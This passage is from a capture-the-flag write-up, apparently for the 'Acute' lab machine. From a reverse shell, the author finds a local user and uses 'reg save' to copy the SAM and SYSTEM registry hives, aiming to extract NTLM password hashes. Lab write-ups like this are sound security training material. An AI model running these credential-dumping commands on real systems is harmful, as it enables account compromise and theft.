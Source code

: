 Looks like only `Administrator` on the Domain Controller is a member of `Domain Admins` group?

**After poking around at the `jmorgan` reverse shell session, I realized that there's a local user called `Natasha`:**
```shell
PS C:\Users\jmorgan\Documents> ls C:\Users\
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
[...]                                                            
d-----        19/11/2021     09:29                Natasha                                                              
[...]
```

Hmm... I wonder what's this user's password.

**Luckily, since we're an administrator user in `Acute-PC01`, we can extract the hive from registry, which holds all the local accounts' NTLM password hash:**
```shell
PS C:\Users\jmorgan\Documents> ls $env:SystemRoot\System32\config\SAM
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        08/02/2022     00:09          65536 SAM                                                                  

PS C:\Users\jmorgan\Documents> ls $env:SystemRoot\System32\config\SYSTEM
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        08/02/2022     02:30       13107200 SYSTEM
```

> The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer. (From [https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-sam](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-sam))

- Make a copy of `SAM` and `SYSTEM` file:

```shell
PS C:\Users\jmorgan\Documents> reg save HKLM\SAM C:\Utils\SAM.bak
The operation completed successfully.
PS C:\Users\jmorgan\Documents> reg save HKLM\SYSTEM C:\Utils\SYSTEM.bak
The operation completed successfully.
```

> Note: If you don't make a copy of them, you can't access those files, because they're being used by another process.
